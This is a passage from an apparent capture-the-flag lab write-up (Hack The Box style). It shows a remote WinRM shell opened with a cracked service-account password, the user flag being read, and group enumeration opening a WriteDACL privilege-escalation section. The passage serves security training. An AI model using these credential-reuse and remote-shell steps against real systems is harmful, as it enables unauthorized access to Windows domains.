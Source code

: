 I was only able to login as the `svc-alfreso` user, so the password was not reused amongst the other users.
Since I has the password for the `svc-alfreso` user, I figured I might as well try logging in with WinRM:

```
$ ./evil-winrm.rb -u svc-alfresco -p s3rvice -i 10.10.10.161

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> gc C:\Users\svc-alfresco\Desktop\user.txt
e5e4e47ae7022664cda6eb013fb0d9ed
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

As seen above, I was able to successfully login and grab the `user.txt` flag.

## Privilege Escalation (Abusing WriteDACL from Windows Exchange Privileges)

On Windows machines, I always check for my current user's groups and privileges:

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami /all

USER INFORMATION
----------------

User Name        SID
================ =============================================
htb\svc-alfresco S-1-5-21-3072663084-364016917-1341370565-1147


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Account Operators                  Alias            S-1-5-32-548                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
HTB\Privileged IT Accounts                 Group            S-1-5-21-3072663084-364016917-1341370565-1149 Mandatory group, Enabled by default, Enabled group
HTB\Service Accounts                       Group            S-1-5-21-3072663084-364016917-1341370565-1148 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192
```